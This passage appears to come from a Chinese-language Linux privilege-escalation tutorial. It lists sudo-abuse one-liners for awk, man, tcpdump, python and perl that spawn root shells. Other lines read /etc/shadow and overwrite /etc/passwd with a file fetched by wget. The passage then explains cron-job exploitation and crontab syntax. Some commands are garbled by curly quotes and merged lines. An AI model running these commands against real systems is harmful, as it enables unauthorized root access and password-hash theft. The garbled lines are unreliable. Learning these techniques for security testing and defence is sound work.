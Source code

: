 **awk**

awk ‘BEGIN {system(“/bin/sh”)}’

**man**

man passwd!/bin/bash

**wget**

wget [http://192.168.56.1:8080/passwd](https://link.zhihu.com/?target=http%3A//192.168.56.1%3A8080/passwd) -O /etc/passwd

**apache**

仅可查看文件，不能弹 shell：

apache2 -f /etc/shadow

**tcpdump**

echo $’id\ncat /etc/shadow’ > /tmp/.testchmod +x /tmp/.testsudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

**python/perl/ruby/lua/php/etc**

**python**

python -c “import os;os.system(‘/bin/bash’)”

**perl**

exec “/bin/bash”;

## **0x007 linux提权—利用定时任务（Cron jobs）**

如果未正确配置Cronjob，则可以利用该Cronjob获得root特权。

\1. Cronjob中是否有可写的脚本或二进制文件？
2.我们可以覆盖cron文件本身吗？
\3. cron.d目录可写吗？

Cronjob通常以root特权运行。如果我们可以成功篡改cronjob中定义的任何脚本或二进制文件，那么我们可以以root特权执行任意代码。

## **什么是Cronjob？**

Cron Jobs被用于通过在服务器上的特定日期和时间执行命令来安排任务。它们最常用于sysadmin任务，如备份或清理/tmp/目录等。Cron这个词来自crontab，它存在于/etc目录中。

例如：在crontab内部，我们可以添加以下条目，以每1小时自动打印一次apache错误日志。

11 0 * * * printf “” > /var/log/apache/error_log

前五个数字值表示执行cronjob的时间。现在让我们了解五个数字值。

- 分钟–第一个值表示介于0到59之间的分钟范围，而*表示任何分钟。
- 小时–第二个值表示小时范围在0到24之间，*表示任何小时。
- 月中的某天–第三个值表示月中的某日，范围是1到31，*表示任何一天。
- 月–第四个值表示1到12之间的月份范围，*表示任何月份。
- 星期几–第五个值表示从星期天开始的星期几，介于0到6之间，*表示星期几。

**简而言之呢，**crontab**就是一个自定义定时器。**
